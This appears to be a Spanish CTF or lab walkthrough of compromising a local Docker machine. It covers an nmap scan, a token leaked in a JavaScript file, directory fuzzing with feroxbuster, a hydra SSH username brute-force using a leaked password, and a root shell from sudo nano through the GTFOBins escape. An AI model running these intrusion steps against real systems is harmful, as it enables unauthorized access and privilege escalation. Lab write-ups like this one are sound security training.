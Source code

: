 Fecha: 13/08/2024

Empiezo haciendo nmap, encontrando ssh en el puerto 5000, un framework de Nodejs en el 3000 y un apache en el 80, ninguno de ellos vulnerables por searchsploit.

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

Visito la página y no veo nada, solo un botón que, aparentemente, no funciona. Inspeccionando la página, veo un script, `authentication.js`, en el que dice: 
```
function autenticate() {
    console.log("Para opciones de depuracion, el token de /recurso/ es tokentraviesito");
}
```

Accedo a http://172.17.0.2/recurso/?token=tokentraviesito, y veo lo siguiente:

![](Imágenes/Pasted%20image%2020240813172916.png)

No sé qué hacer con esto, por lo que paso a hacer fuzzing de la página (con -d 2 evito demasiados niveles de recursión, ya que dentro de backend hay muchos archivos): 

```
feroxbuster -u http://172.17.0.2 -x php -x html -x txt -x js -w /usr/share/wordlists/directory-list-2.3-medium.txt -o fuzzing --threads 300 -d 2 
```

![](Imágenes/Pasted%20image%2020240813173703.png)

Mirando http://172.17.0.2/backend/server.js encuentro: 

![](Imágenes/Pasted%20image%2020240813173838.png)

Uso hydra para buscar un username que se corresponda a esa contraseña para entrar por ssh. Como se cambió el puerto al 5000: 
```
hydra -L /usr/share/wordlists/rockyou.txt  -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2:5000 -t 64
```

Encuentro el usuario `lovely`: 
![](Imágenes/Pasted%20image%2020240813175722.png)

Con sudo -l veo que puedo ejecutar nano como superusuario, por lo que haciendo lo siguiente (https://gtfobins.github.io/gtfobins/nano/#sudo) me convierto en root:

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![](Imágenes/Pasted%20image%2020240813175932.png)
